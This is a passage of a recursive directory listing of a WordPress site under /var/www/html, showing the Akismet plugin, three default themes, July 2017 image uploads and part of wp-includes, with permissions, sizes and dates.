-rw-r--r-- 1 www-data www-data  12K Apr 25  2017 akismet.css
-rw-r--r-- 1 www-data www-data 7.5K May 10  2017 akismet.js
-rw-r--r-- 1 www-data www-data  700 Jul  2  2014 form.js
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 img

/var/www/html/wp-content/plugins/akismet/_inc/img:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data 5.0K May  1  2017 logo-full-2x.png

/var/www/html/wp-content/plugins/akismet/views:
total 48K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data  11K Feb  1  2017 config.php
-rw-r--r-- 1 www-data www-data  608 Jan 31  2017 get.php
-rw-r--r-- 1 www-data www-data 9.0K Dec 14  2016 notice.php
-rw-r--r-- 1 www-data www-data 6.6K Jan 31  2017 start.php
-rw-r--r-- 1 www-data www-data  744 Dec 15  2016 stats.php

/var/www/html/wp-content/themes:
total 24K
drwxr-xr-x 5 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Jul  2  2017 ..
-rw-r--r-- 1 www-data www-data   28 Jun  5  2014 index.php
drwxr-xr-x 6 www-data www-data 4.0K Jun  8  2017 twentyfifteen
drwxr-xr-x 5 www-data www-data 4.0K Jun  8  2017 twentyseventeen
drwxr-xr-x 7 www-data www-data 4.0K Jun  8  2017 twentysixteen

/var/www/html/wp-content/themes/twentyfifteen:
total 788K
drwxr-xr-x 6 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data  809 Dec 16  2014 404.php
-rw-r--r-- 1 www-data www-data 1.9K Dec 11  2014 archive.php
-rw-r--r-- 1 www-data www-data 1.2K Dec 16  2014 author-bio.php
-rw-r--r-- 1 www-data www-data 1.5K Dec 16  2014 comments.php
-rw-r--r-- 1 www-data www-data 1.8K Dec 16  2014 content-link.php
-rw-r--r-- 1 www-data www-data 1.2K Dec 16  2014 content-none.php
-rw-r--r-- 1 www-data www-data 1.1K Dec 16  2014 content-page.php
-rw-r--r-- 1 www-data www-data 1.7K Dec 16  2014 content.php
-rw-r--r-- 1 www-data www-data 1.1K Dec 16  2014 content-search.php
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 css
-rw-r--r-- 1 www-data www-data  823 Dec 16  2014 footer.php
-rw-r--r-- 1 www-data www-data  14K Oct 23  2016 functions.php
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 genericons
-rw-r--r-- 1 www-data www-data 1.9K Mar  9  2016 header.php
-rw-r--r-- 1 www-data www-data 2.9K Dec 16  2014 image.php
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 inc
-rw-r--r-- 1 www-data www-data 1.8K Dec 11  2014 index.php
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 js
-rw-r--r-- 1 www-data www-data  902 Nov 19  2014 page.php
-rw-r--r-- 1 www-data www-data 3.5K Jun  8  2017 readme.txt
-rw-r--r-- 1 www-data www-data  13K May 25  2017 rtl.css
-rw-r--r-- 1 www-data www-data 563K Mar 18  2016 screenshot.png
-rw-r--r-- 1 www-data www-data 1.4K Dec 16  2014 search.php
-rw-r--r-- 1 www-data www-data 1.3K Nov 19  2014 sidebar.php
-rw-r--r-- 1 www-data www-data 1.5K Dec 12  2014 single.php
-rw-r--r-- 1 www-data www-data  96K Jun  8  2017 style.css

/var/www/html/wp-content/themes/twentyfifteen/css:
total 36K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data 5.7K Dec 23  2015 editor-style.css
-rw-r--r-- 1 www-data www-data 1.2K Dec 10  2014 ie7.css
-rw-r--r-- 1 www-data www-data  14K Jan 15  2015 ie.css

/var/www/html/wp-content/themes/twentyfifteen/genericons:
total 212K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data 1.4K Oct 14  2014 COPYING.txt
-rw-r--r-- 1 www-data www-data  27K Dec 10  2014 genericons.css
-rw-r--r-- 1 www-data www-data  23K Oct 14  2014 Genericons.eot
-rw-r--r-- 1 www-data www-data  78K Oct 14  2014 Genericons.svg
-rw-r--r-- 1 www-data www-data  23K Oct 14  2014 Genericons.ttf
-rw-r--r-- 1 www-data www-data  15K Oct 14  2014 Genericons.woff
-rw-r--r-- 1 www-data www-data  18K Oct 14  2014 LICENSE.txt
-rw-r--r-- 1 www-data www-data 6.5K Oct 14  2014 README.md

/var/www/html/wp-content/themes/twentyfifteen/inc:
total 60K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data 2.2K Nov 25  2014 back-compat.php
-rw-r--r-- 1 www-data www-data 9.3K Jul  6  2015 custom-header.php
-rw-r--r-- 1 www-data www-data  21K Mar  1  2016 customizer.php
-rw-r--r-- 1 www-data www-data 8.2K Jan 27  2017 template-tags.php

/var/www/html/wp-content/themes/twentyfifteen/js:
total 36K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data 2.9K Dec 16  2014 color-scheme-control.js
-rw-r--r-- 1 www-data www-data  832 Dec 16  2014 customize-preview.js
-rw-r--r-- 1 www-data www-data 5.8K Mar 15  2016 functions.js
-rw-r--r-- 1 www-data www-data 2.4K Oct 14  2014 html5.js
-rw-r--r-- 1 www-data www-data  487 Dec 10  2014 keyboard-image-navigation.js
-rw-r--r-- 1 www-data www-data  727 Oct 15  2014 skip-link-focus-fix.js

/var/www/html/wp-content/themes/twentyseventeen:
total 544K
drwxr-xr-x 5 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data  909 Oct 20  2016 404.php
-rw-r--r-- 1 www-data www-data 1.8K Nov  1  2016 archive.php
drwxr-xr-x 5 www-data www-data 4.0K Jun  8  2017 assets
-rw-r--r-- 1 www-data www-data 2.3K Dec 16  2016 comments.php
-rw-r--r-- 1 www-data www-data 1.3K Apr 18  2017 footer.php
-rw-r--r-- 1 www-data www-data 1.6K Jan  6  2017 front-page.php
-rw-r--r-- 1 www-data www-data  18K Mar 23  2017 functions.php
-rw-r--r-- 1 www-data www-data 1.8K Dec 20  2016 header.php
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 inc
-rw-r--r-- 1 www-data www-data 2.1K Nov  1  2016 index.php
-rw-r--r-- 1 www-data www-data  965 Oct 23  2016 page.php
-rw-r--r-- 1 www-data www-data 3.2K Jun  8  2017 README.txt
-rw-r--r-- 1 www-data www-data 9.5K May 25  2017 rtl.css
-rw-r--r-- 1 www-data www-data 356K Oct 20  2016 screenshot.png
-rw-r--r-- 1 www-data www-data  948 Dec 16  2016 searchform.php
-rw-r--r-- 1 www-data www-data 2.0K Nov  1  2016 search.php
-rw-r--r-- 1 www-data www-data  434 Oct 20  2016 sidebar.php
-rw-r--r-- 1 www-data www-data 1.6K Dec 16  2016 single.php
-rw-r--r-- 1 www-data www-data  81K Jun  8  2017 style.css
drwxr-xr-x 7 www-data www-data 4.0K Jun  8  2017 template-parts

/var/www/html/wp-content/themes/twentyseventeen/assets:
total 20K
drwxr-xr-x 5 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Jun  8  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 css
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 images
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 js

/var/www/html/wp-content/themes/twentyseventeen/assets/css:
total 48K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data  18K Dec  2  2016 colors-dark.css
-rw-r--r-- 1 www-data www-data 8.9K Oct 26  2016 editor-style.css
-rw-r--r-- 1 www-data www-data 3.6K Dec  2  2016 ie8.css
-rw-r--r-- 1 www-data www-data 1.3K Dec  2  2016 ie9.css

/var/www/html/wp-content/themes/twentyseventeen/assets/images:
total 544K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data 115K Nov 23  2016 coffee.jpg
-rw-r--r-- 1 www-data www-data  92K Nov 23  2016 espresso.jpg
-rw-r--r-- 1 www-data www-data 113K Nov 17  2016 header.jpg
-rw-r--r-- 1 www-data www-data 168K Nov 23  2016 sandwich.jpg
-rw-r--r-- 1 www-data www-data  41K Nov 16  2016 svg-icons.svg

/var/www/html/wp-content/themes/twentyseventeen/assets/js:
total 56K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data 1.2K Dec 20  2016 customize-controls.js
-rw-r--r-- 1 www-data www-data 4.4K Dec  2  2016 customize-preview.js
-rw-r--r-- 1 www-data www-data 7.6K Dec  2  2016 global.js
-rw-r--r-- 1 www-data www-data  11K Oct 20  2016 html5.js
-rw-r--r-- 1 www-data www-data 5.7K Oct 20  2016 jquery.scrollTo.js
-rw-r--r-- 1 www-data www-data 3.7K Dec  3  2016 navigation.js
-rw-r--r-- 1 www-data www-data  683 Nov 14  2016 skip-link-focus-fix.js

/var/www/html/wp-content/themes/twentyseventeen/inc:
total 72K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data 2.4K Oct 20  2016 back-compat.php
-rw-r--r-- 1 www-data www-data  22K Jan 13  2017 color-patterns.php
-rw-r--r-- 1 www-data www-data 4.3K Dec 16  2016 custom-header.php
-rw-r--r-- 1 www-data www-data 6.6K Mar 10  2017 customizer.php
-rw-r--r-- 1 www-data www-data 6.9K Jan  6  2017 icon-functions.php
-rw-r--r-- 1 www-data www-data 2.5K Jan  6  2017 template-functions.php
-rw-r--r-- 1 www-data www-data 6.5K May 19  2017 template-tags.php

/var/www/html/wp-content/themes/twentyseventeen/template-parts:
total 28K
drwxr-xr-x 7 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Jun  8  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 footer
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 header
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 navigation
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 page
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 post

/var/www/html/wp-content/themes/twentyseventeen/template-parts/footer:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data  662 Oct 23  2016 footer-widgets.php
-rw-r--r-- 1 www-data www-data  357 Oct 23  2016 site-info.php

/var/www/html/wp-content/themes/twentyseventeen/template-parts/header:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data  349 Dec  2  2016 header-image.php
-rw-r--r-- 1 www-data www-data 1.3K Dec 16  2016 site-branding.php

/var/www/html/wp-content/themes/twentyseventeen/template-parts/navigation:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data 1014 Apr 18  2017 navigation-top.php

/var/www/html/wp-content/themes/twentyseventeen/template-parts/page:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data 2.2K Nov 18  2016 content-front-page-panels.php
-rw-r--r-- 1 www-data www-data 1.6K Oct 23  2016 content-front-page.php
-rw-r--r-- 1 www-data www-data  722 Oct 23  2016 content-page.php

/var/www/html/wp-content/themes/twentyseventeen/template-parts/post:
total 36K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data 2.6K Apr 18  2017 content-audio.php
-rw-r--r-- 1 www-data www-data 1.4K Apr 18  2017 content-excerpt.php
-rw-r--r-- 1 www-data www-data 2.3K Apr 18  2017 content-gallery.php
-rw-r--r-- 1 www-data www-data 2.1K Apr 18  2017 content-image.php
-rw-r--r-- 1 www-data www-data  924 Oct 23  2016 content-none.php
-rw-r--r-- 1 www-data www-data 2.0K Apr 18  2017 content.php
-rw-r--r-- 1 www-data www-data 2.6K Apr 18  2017 content-video.php

/var/www/html/wp-content/themes/twentysixteen:
total 648K
drwxr-xr-x 7 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data  879 May 30  2017 404.php
-rw-r--r-- 1 www-data www-data 2.0K May 30  2017 archive.php
-rw-r--r-- 1 www-data www-data 2.0K May 30  2017 comments.php
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 css
-rw-r--r-- 1 www-data www-data 1.9K May 30  2017 footer.php
-rw-r--r-- 1 www-data www-data  15K May 30  2017 functions.php
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 genericons
-rw-r--r-- 1 www-data www-data 4.1K May 30  2017 header.php
-rw-r--r-- 1 www-data www-data 3.5K May 30  2017 image.php
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 inc
-rw-r--r-- 1 www-data www-data 1.8K May 30  2017 index.php
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 js
-rw-r--r-- 1 www-data www-data  980 May 30  2017 page.php
-rw-r--r-- 1 www-data www-data 3.2K May 30  2017 readme.txt
-rw-r--r-- 1 www-data www-data  13K May 30  2017 rtl.css
-rw-r--r-- 1 www-data www-data 453K May 30  2017 screenshot.png
-rw-r--r-- 1 www-data www-data  744 May 30  2017 searchform.php
-rw-r--r-- 1 www-data www-data 1.5K May 30  2017 search.php
-rw-r--r-- 1 www-data www-data  794 May 30  2017 sidebar-content-bottom.php
-rw-r--r-- 1 www-data www-data  390 May 30  2017 sidebar.php
-rw-r--r-- 1 www-data www-data 1.7K May 30  2017 single.php
-rw-r--r-- 1 www-data www-data  69K May 30  2017 style.css
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 template-parts

/var/www/html/wp-content/themes/twentysixteen/css:
total 28K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data 6.5K May 30  2017 editor-style.css
-rw-r--r-- 1 www-data www-data 2.6K May 30  2017 ie7.css
-rw-r--r-- 1 www-data www-data 3.4K May 30  2017 ie8.css
-rw-r--r-- 1 www-data www-data  748 May 30  2017 ie.css

/var/www/html/wp-content/themes/twentysixteen/genericons:
total 212K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data 1.4K May 30  2017 COPYING.txt
-rw-r--r-- 1 www-data www-data  28K May 30  2017 genericons.css
-rw-r--r-- 1 www-data www-data  22K May 30  2017 Genericons.eot
-rw-r--r-- 1 www-data www-data  76K May 30  2017 Genericons.svg
-rw-r--r-- 1 www-data www-data  22K May 30  2017 Genericons.ttf
-rw-r--r-- 1 www-data www-data  14K May 30  2017 Genericons.woff
-rw-r--r-- 1 www-data www-data  18K May 30  2017 LICENSE.txt
-rw-r--r-- 1 www-data www-data  11K May 30  2017 README.md

/var/www/html/wp-content/themes/twentysixteen/inc:
total 52K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data 2.3K May 30  2017 back-compat.php
-rw-r--r-- 1 www-data www-data  31K May 30  2017 customizer.php
-rw-r--r-- 1 www-data www-data 8.0K May 30  2017 template-tags.php

/var/www/html/wp-content/themes/twentysixteen/js:
total 44K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data 2.9K May 30  2017 color-scheme-control.js
-rw-r--r-- 1 www-data www-data 1.1K May 30  2017 customize-preview.js
-rw-r--r-- 1 www-data www-data 6.7K May 30  2017 functions.js
-rw-r--r-- 1 www-data www-data  11K May 30  2017 html5.js
-rw-r--r-- 1 www-data www-data  527 May 30  2017 keyboard-image-navigation.js
-rw-r--r-- 1 www-data www-data 1.1K May 30  2017 skip-link-focus-fix.js

/var/www/html/wp-content/themes/twentysixteen/template-parts:
total 32K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data 1.2K May 30  2017 biography.php
-rw-r--r-- 1 www-data www-data 1.1K May 30  2017 content-none.php
-rw-r--r-- 1 www-data www-data 1.2K May 30  2017 content-page.php
-rw-r--r-- 1 www-data www-data 1.7K May 30  2017 content.php
-rw-r--r-- 1 www-data www-data 1.3K May 30  2017 content-search.php
-rw-r--r-- 1 www-data www-data 1.5K May 30  2017 content-single.php

/var/www/html/wp-content/uploads:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Jul  2  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Jul  2  2017 ..
drwxr-xr-x 3 www-data www-data 4.0K Jul  2  2017 2017

/var/www/html/wp-content/uploads/2017:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Jul  2  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Jul  2  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Jul  2  2017 07

/var/www/html/wp-content/uploads/2017/07:
total 1.2M
drwxr-xr-x 2 www-data www-data 4.0K Jul  2  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Jul  2  2017 ..
-rw-r--r-- 1 www-data www-data 3.7K Jul  2  2017 cropped-mcwallpaper-100x100.jpg
-rw-r--r-- 1 www-data www-data 122K Jul  2  2017 cropped-mcwallpaper-1024x614.jpg
-rw-r--r-- 1 www-data www-data 6.9K Jul  2  2017 cropped-mcwallpaper-150x150.jpg
-rw-r--r-- 1 www-data www-data  14K Jul  2  2017 cropped-mcwallpaper-300x180.jpg
-rw-r--r-- 1 www-data www-data  73K Jul  2  2017 cropped-mcwallpaper-768x461.jpg
-rw-r--r-- 1 www-data www-data 409K Jul  2  2017 cropped-mcwallpaper.jpg
-rw-r--r-- 1 www-data www-data 3.8K Jul  2  2017 mcwallpaper-100x100.jpg
-rw-r--r-- 1 www-data www-data 117K Jul  2  2017 mcwallpaper-1024x576.jpg
-rw-r--r-- 1 www-data www-data 7.0K Jul  2  2017 mcwallpaper-150x150.jpg
-rw-r--r-- 1 www-data www-data  13K Jul  2  2017 mcwallpaper-300x169.jpg
-rw-r--r-- 1 www-data www-data  70K Jul  2  2017 mcwallpaper-768x432.jpg
-rw-r--r-- 1 www-data www-data 328K Jul  2  2017 mcwallpaper.jpg

/var/www/html/wp-includes:
total 5.3M
drwxr-xr-x 18 www-data www-data  12K Jun  8  2017 .
drwxr-xr-x  7 www-data www-data 4.0K Jul  2  2017 ..
-rw-r--r--  1 www-data www-data  28K May 12  2017 admin-bar.php
-rw-r--r--  1 www-data www-data  12K Dec 13  2016 atomlib.php
-rw-r--r--  1 www-data www-data  16K Mar 25  2017 author-template.php
-rw-r--r--  1 www-data www-data  14K Dec 14  2016 bookmark.php
-rw-r--r--  1 www-data www-data  12K May 22  2016 bookmark-template.php
-rw-r--r--  1 www-data www-data  22K Oct 31  2016 cache.php
-rw-r--r--  1 www-data www-data  27K May 12  2017 canonical.php
-rw-r--r--  1 www-data www-data  24K May 11  2017 capabilities.php
-rw-r--r--  1 www-data www-data  12K Jan 29  2017 category.php
-rw-r--r--  1 www-data www-data  51K May 22  2017 category-template.php
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 certificates
-rw-r--r--  1 www-data www-data  522 Dec  3  2016 class-feed.php
-rw-r--r--  1 www-data www-data  36K May 16  2017 class-http.php
-rw-r--r--  1 www-data www-data 2.6K Aug 31  2016 class-IXR.php
-rw-r--r--  1 www-data www-data  40K Dec  6  2015 class-json.php
-rw-r--r--  1 www-data www-data  30K May 11  2017 class-oembed.php
-rw-r--r--  1 www-data www-data 7.2K Oct  6  2015 class-phpass.php
-rw-r--r--  1 www-data www-data 144K Jan 11  2017 class-phpmailer.php
-rw-r--r--  1 www-data www-data  21K Oct 31  2016 class-pop3.php
-rw-r--r--  1 www-data www-data  30K Oct  5  2016 class-requests.php
-rw-r--r--  1 www-data www-data  88K Jun  6  2016 class-simplepie.php
-rw-r--r--  1 www-data www-data  39K Jan 11  2017 class-smtp.php
-rw-r--r--  1 www-data www-data  37K Jul  6  2016 class-snoopy.php
-rw-r--r--  1 www-data www-data 2.2K Mar 22  2016 class-walker-category-dropdown.php
-rw-r--r--  1 www-data www-data 6.6K May 22  2016 class-walker-category.php
-rw-r--r--  1 www-data www-data  12K Aug 23  2016 class-walker-comment.php
-rw-r--r--  1 www-data www-data 8.3K May 14  2017 class-walker-nav-menu.php
-rw-r--r--  1 www-data www-data 2.3K May 22  2016 class-walker-page-dropdown.php
-rw-r--r--  1 www-data www-data 6.7K May  1  2017 class-walker-page.php
-rw-r--r--  1 www-data www-data  17K Nov  5  2016 class-wp-admin-bar.php
-rw-r--r--  1 www-data www-data 5.0K Aug 23  2016 class-wp-ajax-response.php
-rw-r--r--  1 www-data www-data 9.3K Jan 26  2017 class-wp-comment.php
-rw-r--r--  1 www-data www-data  41K Dec  7  2016 class-wp-comment-query.php
-rw-r--r--  1 www-data www-data  23K May 19  2017 class-wp-customize-control.php
-rw-r--r--  1 www-data www-data 146K May 19  2017 class-wp-customize-manager.php
-rw-r--r--  1 www-data www-data  49K Jan 26  2017 class-wp-customize-nav-menus.php
-rw-r--r--  1 www-data www-data 9.7K Apr  7  2017 class-wp-customize-panel.php
-rw-r--r--  1 www-data www-data  10K Oct 19  2016 class-wp-customize-section.php
-rw-r--r--  1 www-data www-data  28K May 19  2017 class-wp-customize-setting.php
-rw-r--r--  1 www-data www-data  66K Apr  7  2017 class-wp-customize-widgets.php
-rw-r--r--  1 www-data www-data  12K Aug 26  2016 class.wp-dependencies.php
-rw-r--r--  1 www-data www-data 1.7K Aug 26  2016 class-wp-dependency.php
-rw-r--r--  1 www-data www-data  59K May 31  2017 class-wp-editor.php
-rw-r--r--  1 www-data www-data  12K Aug 26  2016 class-wp-embed.php
-rw-r--r--  1 www-data www-data 4.6K Aug 26  2016 class-wp-error.php
-rw-r--r--  1 www-data www-data  764 Aug 25  2016 class-wp-feed-cache.php
-rw-r--r--  1 www-data www-data 2.7K Aug 25  2016 class-wp-feed-cache-transient.php
-rw-r--r--  1 www-data www-data  15K Dec  2  2016 class-wp-hook.php
-rw-r--r--  1 www-data www-data 6.4K Jul 27  2016 class-wp-http-cookie.php
-rw-r--r--  1 www-data www-data  12K May 22  2016 class-wp-http-curl.php
-rw-r--r--  1 www-data www-data 6.3K Jun 10  2016 class-wp-http-encoding.php
-rw-r--r--  1 www-data www-data 3.2K May 22  2016 class-wp-http-ixr-client.php
-rw-r--r--  1 www-data www-data 5.9K May 22  2016 class-wp-http-proxy.php
-rw-r--r--  1 www-data www-data 1.9K Feb 17  2017 class-wp-http-requests-hooks.php
-rw-r--r--  1 www-data www-data 4.5K Oct  5  2016 class-wp-http-requests-response.php
-rw-r--r--  1 www-data www-data 3.1K Aug 22  2016 class-wp-http-response.php
-rw-r--r--  1 www-data www-data  15K May 22  2016 class-wp-http-streams.php
-rw-r--r--  1 www-data www-data  13K Jul  8  2016 class-wp-image-editor-gd.php
-rw-r--r--  1 www-data www-data  22K Feb 27  2017 class-wp-image-editor-imagick.php
-rw-r--r--  1 www-data www-data  12K Aug 20  2016 class-wp-image-editor.php
-rw-r--r--  1 www-data www-data 6.4K Oct 25  2016 class-wp-list-util.php
-rw-r--r--  1 www-data www-data  15K Jan  6  2017 class-wp-locale.php
-rw-r--r--  1 www-data www-data 5.1K Nov 21  2016 class-wp-locale-switcher.php
-rw-r--r--  1 www-data www-data 1.9K Aug 26  2016 class-wp-matchesmapregex.php
-rw-r--r--  1 www-data www-data 5.4K May 23  2016 class-wp-metadata-lazyloader.php
-rw-r--r--  1 www-data www-data  23K Oct 10  2016 class-wp-meta-query.php
-rw-r--r--  1 www-data www-data  11K Feb 22  2017 class-wp-network.php
-rw-r--r--  1 www-data www-data  17K Oct 21  2016 class-wp-network-query.php
-rw-r--r--  1 www-data www-data 5.3K May 11  2017 class-wp-oembed-controller.php
-rw-r--r--  1 www-data www-data  24K Oct 25  2016 class-wp.php
-rw-r--r--  1 www-data www-data 5.8K Jan 26  2017 class-wp-post.php
-rw-r--r--  1 www-data www-data  19K Mar 18  2017 class-wp-post-type.php
-rw-r--r--  1 www-data www-data 120K Feb 23  2017 class-wp-query.php
-rw-r--r--  1 www-data www-data  59K Oct  7  2016 class-wp-rewrite.php
-rw-r--r--  1 www-data www-data 2.7K May 22  2016 class-wp-role.php
-rw-r--r--  1 www-data www-data 6.5K Nov  2  2016 class-wp-roles.php
-rw-r--r--  1 www-data www-data  15K Jul  6  2016 class.wp-scripts.php
-rw-r--r--  1 www-data www-data 7.5K Jan  4  2017 class-wp-session-tokens.php
-rw-r--r--  1 www-data www-data 2.3K Aug 25  2016 class-wp-simplepie-file.php
-rw-r--r--  1 www-data www-data 1.8K Aug 25  2016 class-wp-simplepie-sanitize-kses.php
-rw-r--r--  1 www-data www-data 7.5K Apr 19  2017 class-wp-site.php
-rw-r--r--  1 www-data www-data  23K Mar 27  2017 class-wp-site-query.php
-rw-r--r--  1 www-data www-data  10K May 22  2016 class.wp-styles.php
-rw-r--r--  1 www-data www-data  11K Mar 18  2017 class-wp-taxonomy.php
-rw-r--r--  1 www-data www-data  20K Jan  2  2017 class-wp-tax-query.php
-rw-r--r--  1 www-data www-data 5.3K Jan 26  2017 class-wp-term.php
-rw-r--r--  1 www-data www-data  33K Mar 16  2017 class-wp-term-query.php
-rw-r--r--  1 www-data www-data  712 Aug 25  2016 class-wp-text-diff-renderer-inline.php
-rw-r--r--  1 www-data www-data  14K Aug 25  2016 class-wp-text-diff-renderer-table.php
-rw-r--r--  1 www-data www-data  47K Mar 18  2017 class-wp-theme.php
-rw-r--r--  1 www-data www-data 3.0K Aug 25  2016 class-wp-user-meta-session-tokens.php
-rw-r--r--  1 www-data www-data  20K Jan  6  2017 class-wp-user.php
-rw-r--r--  1 www-data www-data  30K Jan 16  2017 class-wp-user-query.php
-rw-r--r--  1 www-data www-data  13K Jan  6  2017 class-wp-walker.php
-rw-r--r--  1 www-data www-data 3.9K Jul 20  2016 class-wp-widget-factory.php
-rw-r--r--  1 www-data www-data  18K Oct 31  2016 class-wp-widget.php
-rw-r--r--  1 www-data www-data 195K May 16  2017 class-wp-xmlrpc-server.php
-rw-r--r--  1 www-data www-data 100K May 14  2017 comment.php
-rw-r--r--  1 www-data www-data  86K May 14  2017 comment-template.php
-rw-r--r--  1 www-data www-data  17K Aug 10  2016 compat.php
-rw-r--r--  1 www-data www-data  16K Aug 26  2016 cron.php
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 css
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 customize
-rw-r--r--  1 www-data www-data  35K Jan  4  2017 date.php
-rw-r--r--  1 www-data www-data 9.3K Mar 23  2017 default-constants.php
-rw-r--r--  1 www-data www-data  26K May 18  2017 default-filters.php
-rw-r--r--  1 www-data www-data 2.0K May 11  2017 default-widgets.php
-rw-r--r--  1 www-data www-data 109K Jan 10  2017 deprecated.php
-rw-r--r--  1 www-data www-data  43K Mar  6  2017 embed.php
-rw-r--r--  1 www-data www-data  344 Jul  6  2016 embed-template.php
-rw-r--r--  1 www-data www-data 5.3K Dec 16  2016 feed-atom-comments.php
-rw-r--r--  1 www-data www-data 3.1K Dec 16  2016 feed-atom.php
-rw-r--r--  1 www-data www-data  20K Jan  5  2017 feed.php
-rw-r--r--  1 www-data www-data 2.7K Oct 25  2016 feed-rdf.php
-rw-r--r--  1 www-data www-data 4.0K Dec 16  2016 feed-rss2-comments.php
-rw-r--r--  1 www-data www-data 3.7K Dec 16  2016 feed-rss2.php
-rw-r--r--  1 www-data www-data 1.3K Oct 25  2016 feed-rss.php
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 fonts
-rw-r--r--  1 www-data www-data 186K May 29  2017 formatting.php
-rw-r--r--  1 www-data www-data 171K Apr  9  2017 functions.php
-rw-r--r--  1 www-data www-data  12K Oct 18  2016 functions.wp-scripts.php
-rw-r--r--  1 www-data www-data 7.9K Sep  4  2016 functions.wp-styles.php
-rw-r--r--  1 www-data www-data 124K May 25  2017 general-template.php
